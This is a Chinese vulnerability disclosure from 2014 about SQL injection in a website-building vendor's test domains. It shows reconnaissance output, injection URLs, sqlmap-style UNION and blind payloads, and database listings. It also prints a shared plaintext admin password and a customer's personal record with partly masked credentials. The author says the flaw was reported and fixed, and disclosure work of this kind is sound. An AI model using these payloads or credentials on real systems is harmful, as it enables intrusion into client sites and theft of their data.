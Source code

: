# 某建站厂商SQL注入影响数万企业

Feei <feei#feei.cn> 09/2014

## 0x01 信息收集

```
[+] Emails found:
------------------
david@***world.com
admin@***world.com
divid@***world.com

[+] Hosts found in search engines:
------------------------------------
122.227.***.250:server.***world.com
61.130.***.52:www.***world.com
114.80.***.133:testweb5.***world.com
61.130.***.53:wiki.make.***world.com
114.80.***.29:testweb7.***world.com
114.80.***.191:testweb6.***world.com
61.130.***.55:shop.testweb.***world.com
61.130.***.53:cn.***world.com
61.130.***.55:testweb.***world.com
60.191.***.236:admin.***world.com
61.130.***.54:make1.***world.com
61.130.***.53:make.***world.com
60.191.***.236:is-service.***world.com
61.130.***.53:service.***world.com
60.191.***.236:is-testweb7.***world.com
61.130.***.52:file.***world.com
60.191.***.236:hk.***world.com
60.191.***.236:253Dcn.***world.com
```

提取有用信息
`testwebN.***world.com`

- 上面这种域名是用来测试访问网站的(比如客户住域没有备案或者还没购买,先通过这个域名的二级目录来访问)
- 有N个这类二级域名
- 每个这类二级域名下存在数千客户网站

于是查找注入点

## 0x02 漏洞证明

简单的找了下每个二级域下的SQL注入点:

```
testweb 61.130.97.55
http://testweb.***world.com/yining/admin/login.php

testweb2 61.130.97.52 主站
http://testweb2.***world.com/suotie/admin/login.php

testweb3 114.80.68.131
http://testweb3.***world.com/wangxiang/cn/products.php?tid=18&id=1

testweb4
testweb4.***world.com/lnr/cn/faqed.php?id=11&gid=1

...
```

`http://testweb7.***world.com/dongfang/cn/products.php?act=list&id=7`

**通过注入点拿到数据库权限**
```
Place: GET  
Parameter: TypeLevel  
Type: boolean-based blind  
Title: AND boolean-based blind - WHERE or HAVING clause  
Payload: id=19&TypeLevel=1 AND 8971=8971&pid=19  
Type: UNION query

Title: MySQL UNION query (NULL) - 11 columns

Payload: id=19&TypeLevel=1 UNION ALL SELECT NULL,CONCAT(0x7170746271,0x4d597259547178556155,0x7171707a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&pid=19  
```

**`testweb`数据库**
```
web application technology: PHP 5.2.13, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.0
[*] 'yining'@'localhost'
available databases [4]:
[*] information_schema
[*] maindb
[*] test
[*] ...

Database: maindb
[10 tables]
+---------------------------------------+
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+———————————————————+
```

**`testweb2`的`maindb`库**
```bash
Database: maindb 
[12 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+——————+
```

**`testweb3`的`maindb`库**
```
Database: maindb
[6 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| ... |
+------------+
```

通过分析得出以下结论:

- 每个客户网站只有自己数据库权限和一个名为mainbd库的权限
- 通过分析maindb表结构发现里面竟然存了该二级域名下的所有网站相关信息(管理员帐号密码/反馈/备份/日志/插件等)
- 每个二级域的maindb库里面的的客户信息表都是t_admin,并且密码没有加密
- 每个二级域的maindb库管理员表里面都有一个admin ps99379937的管理员帐户,按理说如果是存放客户的密码,为什么会都有这个帐号呢,于是继续深入下去发现了每个二级域都有一个总的管理后台(e.g `testweb2.***world.com/admin`)

## 0x03 漏洞影响

![](images/v_paisang_01.png)
![](images/v_paisang_02.png)
![](images/v_paisang_03.png)

使用`admin`/`ps99379937`可以登陆所有后台,如下

- `testweb.***world.com/admin` (主要是11年建设的网站,共1940个客户)
- `testweb2.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb3.***world.com/admin` (主要是11年建设的网站,共1100个客户)
- `testweb4.***world.com/admin` (主要是12年建设的网站,共1143个客户)
- `testweb5.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb6.***world.com/admin` (主要是13年建设的网站,共1273个客户)
- `testweb7.***world.com/admin` (主要是13年建设的网站,共1093个客户)
- `testweb8.***world.com/admin` (主要是14年建设的网站,共483个客户)
- `testweb9.***world.com/admin` (主要是14年的)
- `testweb10.***world.com/admin` (主要是14年的)
- `testweb11.***world.com/admin` (主要是14年的)

上面截图是其中一个二级域名的管理后台，可以看到很多敏感信息
所有客户网站后台均可以登陆
从`testweb的maindb.t_admin`随便挑选一个用户

```
2644,102,宁波,朱宁斌,,lixiang,4,0,0,5000,李勇,100,lixiang,陈海啸,3lxanc85,,1,2,0,D0:D1:D2:D3:F0:F1:F2:F3:F4:F5:F6:F7:F8:F9:F10:E0:E1:E2:E3:E4:E5:E6:E7:E8:E9:E10:G0:G1:G2:G3:G4:G13:G5:G6:G7:G8:I0:I1:I2:I3:O1:O2,2009-04-30 16:24:58,http://china***.com,2010-02-12 00:00:00,100,宁波**信息工程有限公司,cn/index.php,2009-02-12 00:00:00,,宁波**信息工程有限公司
```

宁波**信息工程有限公司(http://www.china***.com/)
登陆地址:http://www.china***.com/admin/
帐号:lixiang 密码3lxanc**

粗略测试了下,客户案例里面大部分都能登陆并获取到网站后台权限和数据库权限甚至源码。
点到为止,不继续挖了。

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。

